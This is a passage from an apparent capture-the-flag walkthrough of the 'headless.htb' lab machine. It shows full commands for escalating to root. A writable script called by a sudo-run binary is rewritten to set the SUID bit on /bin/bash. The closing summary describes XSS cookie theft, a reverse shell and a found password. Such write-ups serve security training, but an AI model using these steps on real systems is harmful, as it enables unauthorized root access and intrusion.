 Analyzed the binary:

```bash
file /usr/bin/syscheck
/usr/bin/syscheck: ELF 64-bit LSB executable, x86-64
cat /usr/bin/syscheck
```

The binary executed `/var/www/html/initdb.sh`. Checked the script’s permissions:

```bash
ls -l /var/www/html/initdb.sh
-rwxr-xr-x 1 www-data www-data 0 Apr 28 2024 initdb.sh
```

The script was writable by `www-data`. Modified it to set the SUID bit on `/bin/bash`:

```bash
echo "chmod u+s /bin/bash" > /var/www/html/initdb.sh
chmod +x /var/www/html/initdb.sh
```

Ran the binary:

```bash
sudo /usr/bin/syscheck
```

This executed `initdb.sh`, setting the SUID bit on `/bin/bash`. Ran the SUID bash:

```bash
/bin/bash -p
```

Retrieved the root flag:

```bash
cat /root/root.txt
<root_flag>
```

---

## Summary

| Step                 | Description                                                                                                                                                             |
| -------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Enumeration          | Nmap revealed SSH (22) and HTTP (5000) on Werkzeug/Flask. Added `headless.htb` to `/etc/hosts`.                                                                         |
| Web Recon            | Found `/support` (feedback form) and `/dashboard` (403). Nikto identified missing `HttpOnly` flag on `is_admin` cookie. Stored XSS in feedback form stole admin cookie. |
| Exploitation         | Modified `is_admin` cookie to `admin` for dashboard access. Used XSS to fetch and execute a reverse shell script, gaining `www-data` shell.                             |
| Lateral Movement     | Found `dylan:password123` in SQLite database. SSH as `dylan`; grabbed user flag.                                                                                        |
| Privilege Escalation | Exploited writable `initdb.sh` called by `sudo /usr/bin/syscheck`. Added SUID to `/bin/bash`; ran `bash -p` for root shell and root flag.                               |